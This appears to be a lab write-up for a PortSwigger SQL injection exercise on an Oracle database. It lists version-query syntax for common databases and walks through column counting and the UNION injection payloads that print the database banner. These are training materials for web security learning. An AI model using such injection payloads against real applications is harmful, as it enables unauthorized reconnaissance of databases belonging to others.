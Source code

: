 # SQL injection attack, querying the database type and version on Oracle

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

## Definition
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

| Database type 	 | Query                   |
| ------------------ | ----------------------- |
| Microsoft, MySQL 	 | SELECT @@version        |
| Oracle 	         | SELECT * FROM v$version |
| PostgreSQL 	     | SELECT version()        |

For example, you could use a UNION attack with the following input:
```sql
' UNION SELECT @@version--
```

This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Notes
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

**DETERMINING THE NUMBER OF COLUMNS**  
The image below shows the behavior of the application when the payload tries to order the query result for a number that exceeds the maximum number of columns:
  
![Attempt 1](images/image01.png)

However, dwindling the number was possible to get the exact number of columns in the query statement, as shown by the image below:
  
![Attempt 2](images/image02.png)

**EXPLOITATION**  
To achieve the objective of this lab is necessary to inject an Oracle-specific SQL statement to print out its banner:
```sql
'+UNION+SELECT+null,banner+FROM+v$version--
```
![](images/image03.png)
  
![](images/image04.png)

## Key Words
> sql injection, sqlmap, version, oracle